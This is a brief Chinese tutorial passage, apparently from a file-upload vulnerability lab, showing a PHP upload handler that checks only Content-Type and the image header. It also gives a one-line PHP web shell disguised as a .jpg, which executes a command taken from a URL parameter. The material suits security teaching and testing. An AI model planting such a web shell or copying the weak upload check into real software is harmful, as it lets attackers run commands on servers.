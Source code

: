 
### 文件头验证

test1.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		if ($_FILES['upload']['type'] !== 'image/jpeg' && $_FILES['upload']['type'] !== 'image/png') {
			die('file type is wrong!');
		}elseif (exif_imagetype($_FILES['upload']['tmp_name'])) {
			move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
		}else{
			die('exif_imagetype thought file type is wrong!');
		}
	}
}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload1">
	</form>
<?php
}
?>
```

代码验证了`Content-Type`和`文件头`

shell1.jpg
```php
<?php system($_GET['cmd']);?>
```

![](assets/markdown-img-paste-20180415185431242.png)
